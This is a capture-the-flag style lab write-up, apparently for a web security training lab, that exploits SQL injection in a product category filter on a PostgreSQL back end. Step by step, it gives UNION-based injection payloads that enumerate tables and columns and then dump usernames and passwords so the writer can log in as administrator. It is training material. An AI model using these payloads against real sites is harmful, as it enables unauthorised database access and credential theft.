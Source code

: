 # Lab: SQL injection attack, listing the database contents on non-Oracle databases

- sqli: product category fillter
- end goal: log in as the administrator user

### Analysis

- url: `https://0a6d009903388d3c8012c10c00d400df.web-security-academy.net/`

- front-end: `/filter?category=Pets`
- back-end:
```sql
select * from product where category = 'Pets' and released = 1
```

- check sqli vulnerability
- front-end: `/filter?category=Pets'`
- back-end:
```sql
select * from product where category = 'Pets'' and released = 1
'-- 500 Internal Server Error
```

- front-end: `/filter?category=Pets'--`
- back-end:
```sql
select * from product where category = 'Pets'--' and released = 1
-- 200 OK: 
```

- determine how many columns are contain in this website
- front-end: `/filter?category=Pets' order by 2--`
- back-end:
```sql
select * from product where category = 'Pets' order by 2--' and released = 1
-- 200 OK: contain 2 columns
```

- determine data type that contain in the columns 
- front-end: `/filter?category=Pets' union select 'a', 'a'--`
- back-end:
```sql
select * from product where category = 'Pets'' union select 'a', 'a'-- and released = 1
'-- 200 OK: both columns are text
```

- display database version 
- front-end: `/filter?category=Pets' union select version(), null--`
- back-end:
```sql
select * from product where category = 'Pets'' union select version(), null-- and released = 1
'-- 200 OK: PostgreSQL database
-- PostgreSQL 12.18
```

- output the list of table name 
- front-end: `/filter?category=Pets' union select table_name, null from information_schema.tables--`
- back-end:
```sql
select * from product where category = 'Pets'' union select table_name, null from information_schema.tables--
'-- table name: users_lxjhlz 
```

- output the column name of the table 
- front-end: `/filter?category=Pets' union select column_name, null from information_schema.columns where table_name = 'users_lxjhlz'--`
- back-end:
```sql
select * from product where category = 'Pets'' union select column_name, null from information_schema.columns where table_name = 'users_lxjhlz'--
'-- column name: username_omgyxd
-- column name: password_vuesiv
```

- output usernames and passwords
- front-end: `/filter?category=Pets' union select username_omgyxd, password_vuesiv from users_lxjhlz--`
- back-end:
```sql
select * from product where category = 'Pets'' union select username_omgyxd, password_vuesiv from users_lxjhlz--
'-- username: administrator
-- password: fuc5hxlnt3ev1q29o72q
```

- login as administrator account
- Congratulations, you solved the lab!

---